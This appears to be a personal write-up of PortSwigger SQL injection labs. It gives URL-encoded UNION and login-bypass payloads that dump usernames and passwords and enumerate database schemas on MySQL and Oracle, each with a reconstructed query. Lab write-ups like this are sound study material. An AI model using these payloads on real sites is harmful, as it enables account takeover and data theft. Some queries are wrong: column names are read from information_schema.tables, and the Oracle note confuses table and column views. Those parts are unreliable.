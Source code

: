 # Union Attacks (plus some basics)

Note: the final query is simply a guess of the general structure of what it looks like behind the scenes as we aren't given the source code for the actual queries.  I just found it helpful to visually see code highlighting for some of the query schenanigans that were taking place.

For these attacks I used BurpSuite proxy to intercept requests.  Simply load the lab, and before sending a request to a vulnerable part of the site, enable intercept.  Then when you see the body of the request, send it to repeater.  

## SQLi using WHERE
>This was was rather simple as it just invovled injecting a conditional into the query. 
>
>Don't forget to substitute spaces with '+' when making requests.
>
>Solution: `'+OR+1=1--`
>
>Final query: 
>``` SQL
>SELECT * FROM table WHERE category = ''+OR+1=1--'AND released = 1
>```
>
<br/>

## SQLi basic application login subversion
>This was was also really easy as you could just comment out the logic related to password checking.
>
>Solution: `administrator'--`
>Final query: 
>```SQL
>                                       |    payload   |
>SELECT name FROM users WHERE username='administrator'--'AND [password checking logic here]
>```
>
<br/>

## SQLi union to find # of cols
>We can subvert the application logic by selecting Null values from the columns of the table.  If we don't select a value from each column without a WHERE statement, the application will throw an error.  Therefore we can simply keep adding NULL values until the application stops throwing errors.  Note the query is slighlty different Oracle.  
>
>[Note this can also be done using ORDER BY but I found this easier]
>
>Solution: `+UNION+SELECT+NULL,NULL,NULL--`
>Final query:
>```SQL
>                                          |           payload           |
>SELECT thing FROM table WHERE category = '' UNION SELECT NULL,NULL,NULL--'[rest of query here]
>```
>
<br/>

## SQL find column containing text
>We used NULL as the values as regardless of the data type of each column, given we selected from each there would be no error.  Now to find which ones are strings we can simply just test each column with a string instead of NULL.
>
>Solution: `+UNION+SELECT+'eee',NULL,NULL` ect ect ect
>
<br/>

## SQL union to get data from other tables
>First step is to use the previous two methods to find out the number and type of each columns.  We find there are two columns that have strings.  Since we're given the fact that they are named `username` and `password`, we can simply query from both.  Checking for extra columns is useful given there were other columns that would have caused this attack to error.
>
>Solution: `'+UNION+SELECT+username,+password+FROM+users--`
>Final query:
>```SQL
>                                         |                  payload                  |
>SELECT * FROM products WHERE category = '' UNION SELECT username,password FROM users--'[rest of query here] 
>```
>
<br/>

## SQL union multipile tables in single column
>Using the previous methods to determine the type and number of columns, we find one that has string values and another that is of another data type.  Therefore to exfiltrate both tables in only one column we must simply append the values of one table to the other.  It may be useful to check the version of SQL the site is running as different SQL flavors have differing sytax for string cocatination.
>
>Solution: `'UNION SELECT NULL,username||password FROM USERS--`
>Final query:
>```SQL
>                                         |                      payload                     |
>SELECT * FROM products WHERE category = '' UNION SELECT NULL, username||password FROM USERS--'[rest of query here]
>```
>
<br/>

## SQL union select version on Oracle
>Given we are told that the version is Oracle for this database, we can simply union attatch the version at the end of the query.  Note the unique syntax of Oracle as it always requires a `FROM` and a table with every `SELECT` query so we must modify the payload to find the type and number of tables.  We can remedy this by using the `dual` table which is always present like so: `'>+UNION+SELECT+'eee','eee'+FROM+dual--`.  We can then request the banner from the `v$version` table which can be found on the [sql cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
>
>Solution: `'+UNION+SELECT+NULL,BANNER+FROM+v$version--`
>Final query:
>``` SQL
>                                         |                 payload                 |
>SELECT * FROM products WHERE category = '' UNION SELECT NULL,BANNER FROM v$version--'[rest of query here]
>```
>
<br/>

## SQL union select version on non Oracle
>Repeat with the previous except you need to test for which version the database is in.  This one turns out to be MySQL.  Substitute accordingly sytax wise.
>
>NOTE: for MySQL you need a space after the double dash to properly comment or use a #.
>
>Solution: `'+UNION+SELECT+@@version,+NULL--+` 
>
<br/>

## SQL union select database tables on non Oracle
>Note: in this lab, the randomized string after the users, password, and username will be different for your lab.
>
>Use previous methods to find out number and type of columns.  We find there are two string columns.  Most non Oracle SQL databases have a table named `information_schema.tables` which houses information about the tables in the database and within that have a column named `table_name` which houses names about the tables on the database.  We can use this to union the table names of the user info with the following payload: 
>`'+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--`
>
>Full query:
>```SQL
>                                         |                            payload                          |
>SELECT * FROM products WHERE category = '' UNION SELECT table_name,NULL FROM information_schema.tables--'
>```
>
>Then after finding the user info table name, which is `users_jzmhvt`, we can query from the `information_schema.tables` to find details about the individual table using the following payload:
>`+UNION+SELECT+column_name,NULL+FROM+information_schema.tables+WHERE+table_name='users_jzmhvt'`
>
>Full query (payload too long for highlighting lol):
>```SQL
>SELECT * FROM products WHERE category = '' UNION SELECT column_name,NULL FROM information_schema.tables WHERE table_name='users_jzmhvt'--'
>```
>
>Finally we get the column names for username and password `password_rnlbda` & `username_noeqqv` and can directly request the information from the users table with the following payload:
>`+UNION+SELECT+username_noeqqv,password_rnlbda+FROM+users_jzmhvt--`
>and nab the password.
>
>Final query:
>```SQL
>                                         |                            payload                            |
>SELECT * FROM products WHERE category = '' UNION SELECT username_noeqqv,password_rnlba FROM users_jzmhvt--'
>```
>
<br/>

## SQL union select database tables Oracle
>Repeat previous lab but with Oracle syntax.  Remember in Oracle instead of `information_schema.tables`, Oracle uses all_tables and instead of `table_name`, uses `all_tab_columns`.
>
<br/>